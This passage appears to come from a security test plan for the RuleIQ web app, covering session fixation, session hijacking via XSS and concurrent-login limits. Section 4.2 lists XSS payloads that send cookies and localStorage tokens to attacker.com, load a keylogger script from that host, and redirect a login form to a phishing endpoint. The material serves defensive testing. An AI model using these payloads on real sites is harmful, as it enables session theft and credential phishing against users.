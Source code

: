 ```python
    )
    
    # Expected: New session ID after login
    assert victim_response.cookies != attacker_session
```

### 4.2 Session Hijacking via XSS

```javascript
// XSS payloads to steal session tokens
const xssPayloads = [
    // Basic cookie stealer
    "<script>fetch('https://attacker.com/steal?c='+document.cookie)</script>",
    
    // LocalStorage token theft
    "<script>fetch('https://attacker.com/steal?t='+localStorage.getItem('token'))</script>",
    
    // KeyLogger injection
    "<script src='https://attacker.com/keylogger.js'></script>",
    
    // Form hijacking
    `<form action="https://attacker.com/phish" method="post" id="evil">
        <script>document.getElementById('loginForm').submit = 
            function() { document.getElementById('evil').submit(); }</script>
    </form>`
];
```

### 4.3 Concurrent Session Testing

```python
def test_concurrent_sessions():
    """Test multiple simultaneous logins"""
    
    credentials = {"email": "test@example.com", "password": "password"}
    
    # Login from multiple "devices"
    sessions = []
    for i in range(10):
        response = requests.post(
            "https://api.ruleiq.com/auth/login",
            json=credentials,
            headers={"User-Agent": f"Device-{i}"}
        )
        sessions.append(response.json()["token"])
    
    # Check if all sessions are valid
    for i, token in enumerate(sessions):
        response = requests.get(
            "https://api.ruleiq.com/profile",
            headers={"Authorization": f"Bearer {token}"}
        )
        print(f"Session {i}: {'Valid' if response.status_code == 200 else 'Invalid'}")
    
    # Expected: Limit on concurrent sessions (e.g., max 3)
```

---